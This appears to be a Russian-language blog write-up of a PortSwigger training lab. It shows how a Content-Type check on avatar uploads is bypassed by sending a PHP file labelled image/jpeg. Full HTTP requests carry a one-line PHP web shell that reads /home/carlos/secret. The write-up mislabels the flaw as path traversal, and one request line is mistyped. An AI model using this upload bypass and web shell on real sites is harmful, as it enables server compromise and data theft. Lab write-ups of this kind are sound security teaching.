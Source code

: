 ```yaml
---
title: "Web shell upload via Content-Type restriction bypass"
date: 2025-08-08
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/file-upload-apprentice/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass"
classes: wide
---
```


Эта лаборатория содержит ~~меня в заключении~~ **уязвимость в загрузке файлов**, которые приводит к **Path Traversal**. Сервер пытается запретить пользователям загружать файлы непредвиденных типов, но для проверки подаются входные данные, управляемые пользователем.

Для решения лабораторной работы нужно загрузить базовую веб-оболочку PHP и использовать ее для извлечения содержимого файла `/home/carlos/secret`.

Для входа даны креды: `wiener:peter`.

```
https://0a66008a034946bc80829ea600770056.web-security-academy.net/
```

## Solution

Для начала залогинимся в свой аккаунт.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_Content-Type_restriction_bypass/1.png){: height="200" .align-center}

Мы видим функцию загрузки аватара. Из условия лабы мне известно, что она уязвима. Попробую загрузить фотку моей кошки)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_Content-Type_restriction_bypass/2.png){: height="200" .align-center}

Она успешно была загружена с помощью следующего запроса:3

```http
OST /my-account/avatar HTTP/2
Host: 0a66008a034946bc80829ea600770056.web-security-academy.net
Cookie: session=DBk7A2HKKUevqloZ85jEImxsTXiEZwPJ
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a66008a034946bc80829ea600770056.web-security-academy.net/my-account?id=wiener
Content-Type: multipart/form-data; boundary=----geckoformboundarya63a36a7661691f5af58caea0ff6e16d
Content-Length: 50510
Origin: https://0a66008a034946bc80829ea600770056.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundarya63a36a7661691f5af58caea0ff6e16d
Content-Disposition: form-data; name="avatar"; filename="cat.jpg"
Content-Type: image/jpeg

...

------geckoformboundarya63a36a7661691f5af58caea0ff6e16d
Content-Disposition: form-data; name="user"

wiener
------geckoformboundarya63a36a7661691f5af58caea0ff6e16d
Content-Disposition: form-data; name="csrf"

Gm1o2X2rtPRvsllWcciUiLdiBxaIJ2Wz
------geckoformboundarya63a36a7661691f5af58caea0ff6e16d--
```

Попробую заменить тело запроса, заменив картинку на следующий `php` код: `<?php echo file_get_contents('/home/carlos/secret'); ?>`. Так же замению расширение файла на `.php`:

```http
POST /my-account/avatar HTTP/2
Host: 0a66008a034946bc80829ea600770056.web-security-academy.net
Cookie: session=DBk7A2HKKUevqloZ85jEImxsTXiEZwPJ
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a66008a034946bc80829ea600770056.web-security-academy.net/my-account?id=wiener
Content-Type: multipart/form-data; boundary=----geckoformboundarya63a36a7661691f5af58caea0ff6e16d
Content-Length: 521
Origin: https://0a66008a034946bc80829ea600770056.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundarya63a36a7661691f5af58caea0ff6e16d
Content-Disposition: form-data; name="avatar"; filename="cat.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/home/carlos/secret'); ?>
 
------geckoformboundarya63a36a7661691f5af58caea0ff6e16d
Content-Disposition: form-data; name="user"

wiener
------geckoformboundarya63a36a7661691f5af58caea0ff6e16d
Content-Disposition: form-data; name="csrf"

Gm1o2X2rtPRvsllWcciUiLdiBxaIJ2Wz
------geckoformboundarya63a36a7661691f5af58caea0ff6e16d--
```

Запрос успешно был выполнен. Открою аватар в отдельном окне.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_Content-Type_restriction_bypass/3.png){: height="200" .align-center}

А вот и необходимый код:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_Content-Type_restriction_bypass/4.png){: height="200" .align-center}
